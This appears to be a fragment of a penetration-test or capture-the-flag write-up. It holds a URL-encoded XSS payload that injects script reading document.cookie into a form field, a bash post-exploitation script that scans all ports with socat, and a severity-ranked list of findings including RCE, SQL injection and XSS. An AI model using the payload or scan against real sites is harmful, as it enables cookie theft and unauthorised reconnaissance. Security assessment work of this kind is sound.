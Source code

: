 ```

agent=&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&message=a
```

## Post exploitation


```bash
#!/bin/bash

TARGET="127.0.0.1"
START_PORT=1
END_PORT=65535
TIMEOUT_SEC=1
CONCURRENCY=200

echo "Scanning $TARGET on ports $START_PORT–$END_PORT with up to $CONCURRENCY concurrent checks..."

# Generate list of ports, then use xargs to run socat in parallel
seq $START_PORT $END_PORT | \
  xargs -P $CONCURRENCY -n 1 -I{} bash -c \
    "timeout $TIMEOUT_SEC socat - TCP:$TARGET:{},connect-timeout=$TIMEOUT_SEC >/dev/null 2>&1 && echo \"Port {} is open\""
```

```
Port 80 is open
Port 3306 is open
```


Critical:
- 1 RCE
High:
- 3 SQL Injection
Medium:
- XSS reflected 
- XSS stored
Low:
- Information disclosure
- Gueassable admin credentials
- Missing Security Headers
- Weak hash for password (md5)
Info:
 - Server headers disclosure
 - Unencrypted communication